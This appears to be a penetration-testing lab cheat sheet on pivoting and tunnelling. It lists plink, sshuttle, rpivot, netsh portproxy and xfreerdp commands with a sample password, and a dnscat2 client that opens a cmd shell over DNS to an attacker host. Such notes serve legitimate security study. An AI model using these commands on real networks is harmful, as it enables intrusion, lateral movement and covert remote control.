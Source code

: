 ## Pivoting around a Network

{% highlight bash %}
# With Plink
plink -D 9050 ubuntu@10.129.15.50

# With SSHuttle
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v

# With rpivot
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999 # From targets
{% endhighlight %}

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/365b73d6-4df5-4651-9713-3cf1877cb4ad/Untitled/w=1920,quality=80)

{% highlight bash %}
# Using netsh.exe
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
netsh.exe interface portproxy show v4tov4

# Then connect to the machine through the pivot
xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123
{% endhighlight %}

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/365b73d6-4df5-4651-9713-3cf1877cb4ad/Untitled/w=1920,quality=80)

## DNS Tunneling

- https://github.com/iagox86/dnscat2
- https://github.com/lukebaggett/dnscat2-powershell

{% highlight bash %}
# Server side 
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

# Client side (with powershell)
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

# Enter session 
window -i [id]
{% endhighlight %}

